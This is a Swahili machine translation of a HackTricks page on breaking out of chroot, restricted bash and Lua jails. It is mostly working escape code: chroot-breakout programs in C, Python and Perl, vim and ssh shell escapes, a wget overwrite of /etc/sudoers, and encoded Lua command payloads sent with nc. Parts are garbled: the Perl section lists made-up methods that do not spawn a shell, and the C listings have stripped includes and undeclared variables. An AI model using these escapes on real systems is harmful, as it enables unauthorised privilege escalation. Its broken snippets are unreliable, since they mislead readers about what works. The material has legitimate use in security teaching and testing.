 # Escaping from Jails

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi kuwa bingwa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## **GTFOBins**

**Tafuta kwenye** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **kama unaweza kutekeleza faili yoyote na sifa ya "Shell"**

## Kutoroka Kutoka Chroot

Kutoka [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mfumo wa chroot **haukusudiwi kulinda** dhidi ya kuingiliwa kwa makusudi na watumiaji wenye **mamlaka** (**root**). Kwenye mifumo mingi, muktadha wa chroot hauna uwezo wa kushughulikia vizuri na programu zilizofungwa kwenye chroot **zinazoweza kufanya chroot ya pili kuvunja**.\
Kawaida hii inamaanisha kuwa ili kutoroka, unahitaji kuwa root ndani ya chroot.

{% hint style="success" %}
**Zana** [**chw00t**](https://github.com/earthquake/chw00t) iliumbwa ili kutumia mazingira yafuatayo na kutoroka kutoka `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Ikiwa wewe ni **root** ndani ya chroot unaweza **kutoroka** kwa kuunda **chroot nyingine**. Hii ni kwa sababu chroot 2 haziwezi kuwepo (katika Linux), kwa hivyo ikiwa unatengeneza saraka na kisha **kuunda chroot mpya** kwenye saraka hiyo mpya ukiwa **nje yake**, sasa utakuwa **nje ya chroot mpya** na kwa hivyo utakuwa kwenye FS.

Hii hutokea kwa sababu kawaida chroot HAIHAMISHI saraka yako ya kazi kwenye ile iliyotajwa, kwa hivyo unaweza kuunda chroot lakini uwe nje yake.
{% endhint %}

Kawaida hutapata faili ya `chroot` ndani ya jela ya chroot, lakini **unaweza kusanidi, kupakia na kutekeleza** faili ya binary:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>Perl</summary>

Perl ni lugha ya programu ambayo inaweza kutumika kwa kusudi la kutoroka kutoka kwenye mazingira ya bash iliyopunguzwa. Hapa kuna njia kadhaa za kufanya hivyo:

1. Kutumia Perl kwa kutekeleza amri za shell:

```perl
perl -e 'exec "/bin/sh";'
```

2. Kutumia Perl kwa kutekeleza amri za shell kwa kutumia mchanganyiko wa amri za Perl na amri za shell:

```perl
perl -e 'system("/bin/sh");'
```

3. Kutumia Perl kwa kutekeleza amri za shell kwa kutumia mchanganyiko wa amri za Perl na amri za shell, na kuficha matokeo:

```perl
perl -e 'open(STDIN, "/bin/sh");'
```

4. Kutumia Perl kwa kutekeleza amri za shell kwa kutumia mchanganyiko wa amri za Perl na amri za shell, na kuficha matokeo na kuingiza amri za shell ndani ya programu ya Perl:

```perl
perl -e '$0="/bin/sh";'
```

Kwa kutumia njia hizi, unaweza kutoroka kutoka kwenye mazingira ya bash iliyopunguzwa na kupata ufikiaji wa juu zaidi.

```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```

</details>

### Mzizi + FD iliyohifadhiwa

{% hint style="warning" %}
Hii ni sawa na kesi iliyotangulia, lakini katika kesi hii **mshambuliaji anahifadhi faili descriptor kwa saraka ya sasa** na kisha **anajenga chroot katika saraka mpya**. Hatimaye, kwa kuwa ana **upatikanaji** wa **FD** hiyo **nje** ya chroot, anaiingia na **kutoroka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD inaweza kupitishwa kupitia Unix Domain Sockets, hivyo:

* Unda mchakato wa mtoto (fork)
* Unda UDS ili mzazi na mtoto waweze kuongea
* Chalisha chroot katika mchakato wa mtoto katika saraka tofauti
* Katika mzazi proc, unda FD ya saraka ambayo iko nje ya chroot mpya ya mtoto
* Pita kwa mtoto procc FD hiyo kwa kutumia UDS
* Mtoto mchakato chdir kwa FD hiyo, na kwa sababu iko nje ya chroot yake, atatoka gerezani

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Kufunga kifaa cha mizizi (/) katika saraka ndani ya chroot
* Kufunga katika saraka hiyo

Hii inawezekana katika Linux

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Funga procfs katika saraka ndani ya chroot (ikiwa bado haijafungwa)
* Tafuta pid ambayo inaingia tofauti ya mizizi/cwd, kama: /proc/1/root
* Chroot katika kuingia hiyo

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Unda Fork (mtoto proc) na chroot katika saraka tofauti zaidi katika FS na CD juu yake
* Kutoka kwa mchakato wa mzazi, hamisha saraka ambapo mchakato wa mtoto iko katika saraka kabla ya chroot ya watoto
* Mchakato huu wa watoto atajikuta nje ya chroot

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Muda uliopita watumiaji wangeweza kudebugi michakato yao wenyewe kutoka kwa mchakato wa wenyewe... lakini hii haiwezekani kwa chaguo-msingi tena
* Hata hivyo, ikiwa inawezekana, unaweza kufuatilia mchakato na kutekeleza shellcode ndani yake ([angalia mfano huu](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash Jails

### Uchunguzi

Pata habari kuhusu gereza:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### Badilisha NJIA

Angalia ikiwa unaweza kubadilisha kipengele cha mazingira cha NJIA (PATH)

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Kutumia vim

Vim ni mhariri wa maandishi unaopatikana kwenye mifumo mingi ya Linux. Inaweza kutumiwa kwa ufanisi katika kutoroka kutoka kwenye mazingira ya bash yaliyopunguzwa. Hapa kuna hatua za kufuata:

1. Fungua terminal na uingie kwenye akaunti ya mtumiaji mdogo.
2. Chukua jina la faili la kikao cha bash kilichopunguzwa na uandike kwenye kumbukumbu.
3. Tumia amri `vim` kufungua mhariri wa vim.
4. Ndani ya vim, bonyeza `:` kuingia kwenye mode ya amri.
5. Andika `set shell=/bin/bash` na bonyeza Enter ili kuweka shell ya vim kuwa bash.
6. Kisha andika `shell` na bonyeza Enter ili kutekeleza amri ya shell.
7. Utakuwa sasa umepata shell ya bash iliyopanuliwa na uwezo wa kutekeleza amri zote za bash.

Kwa kufuata hatua hizi, unaweza kutumia vim kutoroka kutoka kwenye mazingira ya bash yaliyopunguzwa na kupata ufikiaji wa juu wa mifumo ya Linux.

```bash
:set shell=/bin/sh
:shell
```

#### Unda skripti

Angalia kama unaweza kuunda faili inayoweza kutekelezwa na maudhui ya _/bin/bash_

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### Pata bash kutoka kwa SSH

Ikiwa unatumia ssh, unaweza kutumia hila hii ili kutekeleza kikasha cha bash:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Tangaza

Kuweka mazingira salama kwenye mfumo wa Linux ni muhimu sana ili kuzuia watu wasiohitajika kufikia rasilimali zako za mtandao. Hata hivyo, kuna njia ambazo mtu anaweza kutumia kuvunja vizuizi na kupata ufikiaji wa kiwango cha juu kwenye mfumo wako. Mbinu hii inajulikana kama "kupanda kutoka kwenye Bash iliyopunguzwa".

Kwa kawaida, wakati mtumiaji anapokuwa amepunguzwa kwenye Bash iliyopunguzwa, kuna vizuizi kadhaa ambavyo vinazuia ufikiaji wa kiwango cha juu. Hata hivyo, kuna njia kadhaa za kuzunguka vizuizi hivi na kupata ufikiaji wa kiwango cha juu.

Moja ya njia hizo ni kwa kutumia mbinu ya "kupanda kutoka kwenye Bash iliyopunguzwa" ambayo inahusisha kutumia mbinu za kubadilisha mazingira ya Bash ili kuondoa vizuizi na kupata ufikiaji wa kiwango cha juu.

Kuna njia kadhaa za kufanya hivyo, ikiwa ni pamoja na kubadilisha PATH, kubadilisha SHELL, kubadilisha LD\_PRELOAD, na kutumia mbinu za kubadilisha mazingira ya Bash.

Ni muhimu kuelewa kwamba mbinu hizi zinaweza kuwa hatari na zinapaswa kutumiwa tu kwa madhumuni ya kujifunza au kwa idhini ya mmiliki wa mfumo. Kwa kuongezea, ni muhimu kufuata sheria na kanuni zote zinazohusiana na usalama wa mtandao wakati wa kufanya mbinu hizi.

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Unaweza kubadilisha faili ya sudoers kwa mfano

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Mbinu nyingine

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Pia inaweza kuwa ya kuvutia ukurasa huu:**

### Jela za Python

Mbinu za kutoroka kutoka kwa jela za python zinapatikana kwenye ukurasa ufuatao:

### Jela za Lua

Kwenye ukurasa huu unaweza kupata kazi za jumla ambazo unaweza kuzitumia ndani ya lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval na utekelezaji wa amri:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Baadhi ya mbinu za **kuita kazi za maktaba bila kutumia alama za nukta**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Panga kazi za maktaba:

```bash
for k,v in pairs(string) do print(k,v) end
```

Tafadhali kumbuka kuwa kila wakati unapotekeleza amri ya awali katika **mazingira tofauti ya lua, utaratibu wa kazi hubadilika**. Kwa hivyo, ikiwa unahitaji kutekeleza kazi fulani maalum, unaweza kufanya shambulio la nguvu kwa kupakia mazingira tofauti ya lua na kuita kazi ya kwanza ya maktaba ya le:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Pata kikao cha lua cha kuingiliana**: Ikiwa uko ndani ya kikao cha lua kilichopunguzwa, unaweza kupata kikao kipya cha lua (na matumaini yasiyokuwa na kikomo) kwa kuita:

```bash
debug.debug()
```

### Marejeo

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Majedwali: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
